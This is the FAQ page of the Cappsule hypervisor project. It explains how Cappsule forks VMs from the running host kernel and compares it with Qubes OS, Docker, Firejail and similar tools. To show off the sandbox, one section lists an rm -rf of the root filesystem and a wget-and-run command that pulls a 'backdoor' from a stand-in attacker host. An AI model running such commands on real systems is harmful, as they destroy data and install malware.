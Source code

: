 ```yaml
---
layout: page
title: FAQ
permalink: /faq/
---
```


## What's the difference between Cappsule and other hypervisors?

Traditional virtualization solutions (e.g.: VMware, Xen, KVM) virtualize whole operating systems (such as Windows or Linux), whereas Cappsule virtualizes a running system. VMs launched by Cappsule don't go through the boot step; they start directly on a running kernel. This particular feature allows an instantaneous launch of VMs. One can think of VMs as forks of the host operating system. In fact, the VMs' kernel is a copy of the running host kernel. Another particularity is that no VM disk image is required. There's no need to setup, configure, install, manage and keep new VMs up-to-date. The host filesystem is accessible as Copy-on-Write (with respect to a whitelist of files and folders accessible in read-only or read-write mode).



## Why Cappsule hypervisor is considered secure?

Every software has security bugs, and Cappsule is no exception. But it is developed from scratch, with the main goal of being secure. With less than 15K lines of code, the attack surface is extremely narrowed in comparison to mainstream hypervisors. Moreover, anything that isn't vital for the VMs isn't implemented and certain classes of attacks simply don't exist. For example, there's no way to access hardware (through I/O memory, I/O ports, or DMA). Also, there's no need of instruction emulation: vulnerabilities such as XSA-105 are thus impossible.



## How transparent is it?

Just prefix your commands with `virt exec`:

 * `virt exec bash`
 * `virt exec firefox`
 * `virt exec vlc random-cat-movie-downloaded-on-the-internet.avi`
 * `sudo virt exec rm -rf --no-preserve-root /`
 * `virt exec bash -c "wget http://evil.ninja/backdoor && chmod +x backdoor && sudo ./backdoor"`

That's it.

Some miscellaneous options are available to specify policies and shared folders, and a few commands help to manage running cappsules and retrieve information:

 * `virt ps`
 * `virt kill 4`
 * `virt attach 3`



## What's the difference with project X?

### Qubes OS

The projects don't share the very same goal. [Qubes OS](https://www.qubes-os.org/) is an amazing project whose developers pushed end user security a step ahead, and it protects against a broader panel of attacks than Cappsule (e.g. malicious firmware, buggy Wi-Fi or USB stack). Nevertheless, the main OS needs to be reinstalled, and users have to learn how to use this new system. Regarding security, Xen's history is disastrous but recent [hardware virtualization requirement](https://www.qubes-os.org/news/2016/07/21/new-hw-certification-for-q4/) should improve that issue.


### Subgraph OS

[Subgraph OS](https://subgraph.com/sgos/) is another promising project. While I haven't tested it, it doesn't seem to use hardware virtualization, but instead relies on Linux namespaces and SECCOMP to ensure the isolation of applications.


### Firejail

I heard a lot of positive comments about [Firejail](https://firejail.wordpress.com/). It also relies on Linux namespaces and SECCOMP to restrict the running environment of untrusted applications, and uses Xpra for the GUI.


### Docker

[Docker](https://www.docker.com/) isn't meant for security. While a lot of improvements have been made recently in this area, it also relies on Linux namespaces and SECCOMP to ensure container isolation. A single kernel vulnerability allows an attacker to compromise the host. On this topic, the chapter 7 (*Understanding Container Threats*) of NCC Group Whitepaper [Understanding and Hardening Linux Containers](https://www.nccgroup.trust/us/our-research/understanding-and-hardening-linux-containers/) is a must-read.


### Bromium

There is few technical public information available on [Bromium](https://www.bromium.com/), but its goals seem similar to Cappsule's. However, Microsoft Windows is supported by Bromium while Cappsule only runs on Linux. Joanna Rutkowska wrote a blogpost telling [How is Qubes OS different from...](http://theinvisiblethings.blogspot.com/2012/09/how-is-qubes-os-different-from.html) Bromium and other projects.


## Error messages

 * *Client error: cannot connect to cappsule server.* Is the daemon running (`/usr/local/cappsule/usr/bin/daemon`)?



## Is there a bug bounty?

Obviously. Here are the [rewards](/bugbounty).

